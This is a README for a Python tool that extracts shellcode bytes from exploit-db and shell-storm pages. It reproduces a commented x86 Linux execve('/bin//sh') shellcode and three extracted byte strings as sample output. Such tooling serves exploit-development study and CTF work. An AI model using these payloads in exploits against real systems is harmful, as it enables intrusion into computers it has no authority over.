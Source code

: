 # sget - like wget, but for shellcodes

**sget** is a python script that automates the extraction of shellcode bytes by parsing HTML source code from a file or a website, such as [exploit-db](https://www.exploit-db.com/shellcodes) or [shell-storm](http://shell-storm.org/shellcode).

Sometimes shellcode bytes are splitted on multiple lines, e.g. [exploit-db.com/raw/13376](https://www.exploit-db.com/raw/13376):
```
char shellcode[] =
  "\x6a\x0b"                // push   $0xb
  "\x58"                    // pop    %eax
  "\x99"                    // cltd
  "\x52"                    // push   %edx
  "\x68\x2f\x2f\x73\x68"    // push   $0x68732f2f
  "\x68\x2f\x62\x69\x6e"    // push   $0x6e69622f
  "\x89\xe3"                // mov    %esp, %ebx
  "\x52"                    // push   %edx
  "\x53"                    // push   %ebx
  "\x89\xe1"                // mov    %esp, %ecx
  "\xcd\x80";               // int    $0x80
```

The output in this case will be:
```
shellcode = b'\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80'
(23 bytes)
```

## Usage

Options:
```
-h, --help  show this help message and exit
-u URL      URL
-f FILE     Path to the file containing the shellcode
```

With an url:
```
$ python3 sget.py -u https://www.exploit-db.com/raw/13375

# Output:
shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'
(25 bytes)
```

With a file:
```
$ wget -q http://shell-storm.org/shellcode/files/shellcode-851.html
$ python3 sget.py -f shellcode-851.html

# Output:
shellcode = b'\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68'
(30 bytes)
```
